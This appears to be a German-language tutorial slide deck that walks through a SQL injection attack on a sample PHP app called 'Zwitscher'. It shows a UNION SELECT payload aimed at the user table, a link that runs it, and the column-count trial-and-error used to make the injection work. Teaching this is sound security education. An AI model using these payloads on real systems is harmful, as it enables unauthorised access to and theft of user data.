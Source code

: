
## Zweiter Versuch

Aufgabe: Werde störende Zeichen los, indem du sie auskommentierst

--

## Zweiter Versuch

Eingabe: <span style="color:crimson">#dog' UNION SELECT *  FROM user; --</span>

( **Wichtig:** Leerzeichen nach Begrenzungssymbol )

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT * FROM user; -- ';
```

[Code ausführen](../zwitscher/?search=%27+UNION+SELECT+*+FROM+user%3B+--+)

<div style="text-align: left"><i>"SQL-Fehler: Die benutzten SELECT-Aussagen haben eine unterschiedliche Anzahl von Zeilen."</i></div>

<div style="text-align: left">UNION benötigt die selbe Anzahl von Feldern in beiden Ergebnis-Tabellen.</div>

---

## Und jetzt?

- Wie viele Zeilen gibt es in der ersten Abfrage?
- Keine Ahnung :(

<br />
<br />
<br />

### Kommen wir nicht mehr weiter?   

---

## Was sollen wir tun? Durchprobieren!

- "1" gibt eine Tabelle mit einer Zeile und einem Feld, das '1' enthält, zurück
- "1, 2" gibt eine Tabelle mit einer Zeile und zwei Feldern, die '1' und '2' enthalten, zurück
- "1, 2, 3" gibt eine Tabelle mit ... zurück
- ...
<br />
<br />

**Ansatz: Ausprobieren... Inkrementiere, bis es passt**

--
